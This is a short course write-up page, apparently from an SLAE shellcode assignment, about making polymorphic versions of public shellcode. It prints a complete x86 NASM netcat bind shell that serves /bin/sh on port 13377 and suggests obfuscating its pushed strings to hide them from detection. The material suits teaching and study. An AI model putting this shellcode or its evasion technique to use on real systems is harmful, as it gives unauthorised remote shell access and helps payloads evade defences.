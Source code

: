 ```yaml
---
title:  Assignment 6
description: Create Polymorphic Versions of Sample Shellcode
order: 6
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

For this assignment we will be creating polymorphic versions of sample shellcode from [shell-storm](shell-storm.org).

The first shellcode we will be transforming is the [netcat bindshell](http://shell-storm.org/shellcode/files/shellcode-804.php), shown below:

```nasm
; netcat_bind_shell.nasm
;  - Listen on port 13377 using netcat and provide shell

    global _start

section .text
_start:

        xor eax,eax
        xor edx,edx
        push 0x37373333         ; 7733
        push 0x3170762d         ; 1pv-
        mov edx, esp

        push eax
        push 0x68732f6e         ; hs/n
        push 0x69622f65         ; ib/e
        push 0x76766c2d         ; vvl-
        mov ecx,esp

        push eax
        push 0x636e2f2f         ; cn//
        push 0x2f2f2f2f         ; ////
        push 0x6e69622f         ; nib/
        mov ebx, esp

        push eax
        push edx
        push ecx
        push ebx
        xor edx,edx
        mov  ecx,esp
        mov al,11               ; execve
        int 0x80
```

It seems there are several ways we can morph this shellcode.  First, we should obfuscate all those push commands, since they contain the string we intend to execute.  We can do this by saving each string in a register first, adding a constant to it, then pushing it.


You can find the all the code to this challenge at [https://github.com/johneiser/SLAE/tree/master/assignments/Assignment_6](https://github.com/johneiser/SLAE/tree/master/assignments/Assignment_6).

<br>
{% include preamble.md %}

[&lt;&lt; Go Back]({{ site.baseurl }})
